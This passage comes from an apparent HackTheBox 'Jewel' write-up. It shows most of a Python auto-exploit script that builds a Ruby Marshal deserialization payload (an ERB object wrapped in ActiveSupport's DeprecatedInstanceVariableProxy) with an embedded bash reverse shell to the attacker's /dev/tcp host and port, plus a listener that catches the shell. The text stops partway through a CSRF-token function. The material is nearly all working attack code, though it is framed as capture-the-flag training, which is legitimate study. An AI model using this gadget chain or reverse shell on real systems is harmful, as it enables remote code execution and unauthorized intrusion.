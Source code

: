 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2009:33:51.png)

jewel_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Ruby Deserealizaiton Exploit - Jewel HackTheBox
# Date: 16/09/21

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import os
from bs4 import BeautifulSoup
import urllib.parse
import json

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Create the payload
def createPayload(lhost,lport):
    print("[+] Let's mount the ruby payload !! [+]")
    payload = "require 'erb'\n"
    payload += "require 'uri'\n"
    payload +="require 'active_support'\n"
    payload +="require 'active_support/core_ext'\n"
    payload +="code = '`/bin/bash -c \"/bin/bash -i >& /dev/tcp/%s/%s 0>&1\"`'\n" %(lhost,lport)
    payload +="erb = ERB.allocate\n"
    payload +="erb.instance_variable_set :@src, code\n"
    payload +="erb.instance_variable_set :@filename, '1'\n"
    payload +="erb.instance_variable_set :@lineno, 1\n"
    payload +="payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)\n"
    payload +="puts URI.encode_www_form(payload: payload)"
    f = open("exploit.rb", "w")
    f.write(payload)
    f.close()
    print("[+] Let's execute the ruby script !! [+]")
    global pay_reverse
    pay_reverse = os.popen('ruby exploit.rb').read().strip()[+8:]
    
# Function to get the CSRF TOKEN
def getCSRFToken(rhost):
    # Make csrfMagicToken global
    global csrf_token
```
